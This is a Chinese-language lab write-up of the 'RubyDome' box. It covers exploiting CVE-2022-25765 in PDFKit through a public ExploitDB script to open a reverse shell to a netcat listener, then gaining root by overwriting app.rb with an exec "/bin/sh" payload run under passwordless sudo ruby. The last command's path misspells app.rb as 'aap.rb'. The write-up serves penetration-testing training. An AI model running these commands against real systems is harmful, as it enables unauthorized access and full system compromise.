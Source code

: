 ```yaml
---
description: Linux - Easy：PDFKit
---
```


# ✔️ RubyDome

## 建立立足点

### 信息枚举

使用Nmap进行开放端口扫描，获得2个开放端口：22和3000

<figure><img src="../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例的“兔子洞”：

<img src="../.gitbook/assets/3 (2).png" alt="" data-size="original">
{% endhint %}

查看3000端口上的Web页面，发现目标是一个可将HTML页面转换为PDF格式的应用：

<figure><img src="../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

尝试随意输入一个URL（http://127.0.0.1），来触发目标应用抛出错误信息，以进一步收集信息：

<figure><img src="../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

查找关于PDFKit相关的已知、公开漏洞，得到：

<figure><img src="../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

本例中，虽为从错误信息中看到任何版本号，但是从初步查找到的公开漏洞的描述信息可得知CVE-2022-25765是针对PDFKit 0.0.0到0.8.7.2版本都适用的，因此可以尝试。

<figure><img src="../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```bash
// 在ExploitDB中查找利用脚本：
searchsploit PDFKit
// 下载利用脚本到Kali本地：
searchsploit -m 51293.py .
```

<figure><img src="../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

查看该脚本的使用方法，供后续构造命令：

<figure><img src="../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>

* 参数 -s：设置Kali本机IP和监听的端口
* 参数 -w：设置目标地址和路径（查看目标页面的HTML源码）
* 参数 -p：设置POST的具体参数（查看目标页面的HTML源码）

<figure><img src="../.gitbook/assets/9 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

```bash
// 在Kali上监听端口：
nc -lvnp 4444
// 在Kali中运行利用脚本：
python3 51293.py -s 192.168.45.234 4444 -w http://192.168.225.22:3000/pdf -p url
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息枚举

针对本机进行初步的信息枚举：

```bash
// 简单枚举，若无收获就换工具：
uname -a
find / -perm -u=s -type f 2>/dev/null
sudo -l
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

通过查找目标系统上所有由root用户拥有且设置了SUID位的普通文件，和查看当前用户andrew不需要密码就可以执行的文件/命令，可得出：**当前用户可以在无需密码的情况下，使用sudo ruby来运行app.rb文件**

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在GTFOBINS 发现可以使用 ruby​​ 获取 shell。

### 漏洞利用

进入到app.rb文件所在的文件夹，查看其权限，可得知当前用户andrew有权写入文件内容：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在写入payload之前，先备份一个app.rb.bak文件，再写入payload：

```bash
// 备份:
cp app.rb app.rb.bak
// 写入payload:
echo 'exec "/bin/sh"' > app.rb
```

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

```bash
// 用sudo和ruby运行已重新修改的app.rb文件：
sudo /usr/bin/ruby /home/andrew/app/aap.rb
```

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

